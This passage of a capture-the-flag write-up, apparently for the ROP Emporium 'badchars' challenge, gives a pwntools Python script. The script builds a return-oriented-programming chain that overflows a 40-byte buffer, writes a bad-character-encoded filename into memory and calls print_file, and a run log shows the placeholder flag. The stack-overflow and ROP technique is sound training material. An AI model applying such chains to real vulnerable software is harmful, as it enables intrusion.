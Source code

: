 ```python
    elf = ELF(binary_name) 
    rop = ROP(elf, badchars=[hex(ord(b)) for b in badchars])

    # .data section available address to store the desired string
    str_addr = 0x60102f
    # offset 
    offset = 40
    filename = "flag.txt"
   
    # Payload
    rop.raw(b"A" * offset)
    
    # pop r12; pop r13; pop r14; pop r15; ret
    rop.raw(rop.r12_r13_r14_r15)
    rop.raw(bytes("".join([f if f not in badchars 
        else badchars_mapping[badchars.index(f)] for f in filename]), 'ascii'))
    rop.raw(p64(str_addr))
    rop.raw(b"JUNKJUNK" * 2)

    # mov string into address
    rop.raw(p64(0x400634))

    # unmap
    unmap(rop, badchars, badchars_mapping, filename, str_addr)
    
    # Store on rdi register the address of the string
    rop.raw(rop.rdi)
    rop.raw(p64(str_addr))
    rop.raw(elf.symbols.print_file)
    return rop.chain()


if __name__ == '__main__':
    filename = "./badchars"
    context.arch = "amd64"

    # ROP chain
    rop_chain = build_rop_chain(filename)
    
    # Run process
    p = process(filename)
    p.recvuntil(b"\n> ")
    p.sendline(rop_chain)  
    print(p.recvall())
```
```sh
$ python3 exploit.py 
[*] '/home/luca/Desktop/w-disaster/rop-emporium/badchars/badchars'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[*] Loaded 13 cached gadgets for './badchars'
[+] Starting local process './badchars': pid 13699
[+] Receiving all data: Done (44B)
[*] Process './badchars' stopped with exit code -11 (SIGSEGV) (pid 13699)
b'Thank you!\nROPE{a_placeholder_32byte_flag!}\n'
```
